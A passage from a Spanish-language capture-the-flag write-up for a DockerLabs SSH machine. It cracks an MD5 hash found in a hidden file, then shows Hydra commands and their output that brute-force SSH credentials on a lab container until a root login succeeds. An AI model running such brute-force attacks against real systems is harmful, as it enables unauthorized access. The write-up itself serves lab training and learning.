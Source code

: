 Trasteando un poco nos encontramos con un fichero oculto llamado *.hash*, el cual, si lo inspeccionamos, contendrá lo que parece un hash.  Lo copiamos y nos dirigiremos a la web de [CarckStation](https://crackstation.net/) y descrackemos el hash.  Como resultado nos dará que es un hash hecho con un algoritmo md5 y oculta la palabra *estrella*. ![CrackStation](https://github.com/JavieRR13/WriteUps/blob/2be3675a25197e4f1ce663fb2091422907aa2746/DockerLabs/Muy%20f%C3%A1cil/BreackMySSH/Im%C3%A1genes/BMSSH_CrackStation.png)
Ya con la contraseña guardada, utilizaremos [Hydra](https://github.com/vanhauser-thc/thc-hydra) pero esta vez para adivinar un posible usuario al que pertenezca dicha contraseña.  
```ruby
❯ hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p estrella -f ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-08 21:37:13
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: root   password: estrella
[STATUS] attack finished for 172.17.0.2 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-08 21:37:25
```
* Con -L indicamos que el usuario se va a proporcionar por una lista.
* Con -p inidcamos la password.
* Con -f indicamos que finalice la ejecución una vez encuentre un parámetro válido.

Este proceso nos ha dado como resultado que la contraseña *estrella* puede pertenecer al usuario *root*.  Así que lo probamos y...
```ruby
❯ ssh root@172.17.0.2
root@172.17.0.2's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@90f44a27e698:~# whoami
root
```
🥳CONSEGUIDO, SOMOS ROOT🥳
____________________________________________________________________________________________
Otra opcion válida pero mucho menos didáctica hubiera sido ejecutar [Hydra](https://github.com/vanhauser-thc/thc-hydra) directamente contra el usuario *root*, asumiendo que se llamaba así, sin necesidad de andar trasteando con el usuario *lovely*.
```ruby
❯ hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```